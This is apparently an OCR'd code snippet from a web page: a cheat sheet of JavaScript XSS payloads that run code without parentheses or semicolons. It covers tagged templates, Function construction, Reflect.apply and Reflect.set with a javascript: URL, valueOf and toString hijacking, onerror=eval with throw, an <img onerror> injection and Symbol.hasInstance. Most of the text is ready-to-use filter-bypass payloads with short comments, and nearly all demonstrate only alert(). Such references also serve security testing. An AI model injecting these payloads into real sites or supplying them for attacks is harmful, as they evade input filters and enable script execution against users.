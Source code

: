 ````javascript
// To pass several arguments you can use
function btt(){
console.log(arguments);
}
btt`${'arg1'}${'arg2'}${'arg3'}`

//It's possible to construct a function and call it
Function`x${'alert(1337)'}x```

// .replace can use regexes and call a function if something is found
"a,".replace`a${alert}` //Initial ["a"] is passed to str as "a," and thats why the initial string is "a,"
"a".replace.call`1${/./}${alert}`
// This happened in the previous example
// Change "this" value of call to "1,"
// match anything with regex /./
// call alert with "1"
"a".replace.call`1337${/..../}${alert}` //alert with 1337 instead

// Using Reflect.apply to call any function with any argumnets
Reflect.apply.call`${alert}${window}${[1337]}` //Pass the function to call (“alert”), then the “this” value to that function (“window”) which avoids the illegal invocation error and finally an array of arguments to pass to the function.
Reflect.apply.call`${navigation.navigate}${navigation}${[name]}`
// Using Reflect.set to call set any value to a variable
Reflect.set.call`${location}${'href'}${'javascript:alert\x281337\x29'}` // It requires a valid object in the first argument (“location”), a property in the second argument and a value to assign in the third.



// valueOf, toString
// These operations are called when the object is used as a primitive
// Because the objet is passed as "this" and alert() needs "window" to be the value of "this", "window" methods are used
valueOf=alert;window+''
toString=alert;window+''


// Error handler
window.onerror=eval;throw"=alert\x281\x29";
onerror=eval;throw"=alert\x281\x29";
<img src=x onerror="window.onerror=eval;throw'=alert\x281\x29'">
{onerror=eval}throw"=alert(1)" //No ";"
onerror=alert //No ";" using new line
throw 1337
// Error handler + Special unicode separators
eval("onerror=\u2028alert\u2029throw 1337");
// Error handler + Comma separator
// The comma separator goes through the list and returns only the last element
var a = (1,2,3,4,5,6) // a = 6
throw onerror=alert,1337 // this is throw 1337, after setting the onerror event to alert
throw onerror=alert,1,1,1,1,1,1337
// optional exception variables inside a catch clause.
try{throw onerror=alert}catch{throw 1}


// Has instance symbol
'alert\x281\x29'instanceof{[Symbol['hasInstance']]:eval}
'alert\x281\x29'instanceof{[Symbol.hasInstance]:eval}
// The “has instance” symbol allows you to customise the behaviour of the instanceof operator, if you set this symbol it will pass the left operand to the function defined by the symbol.
````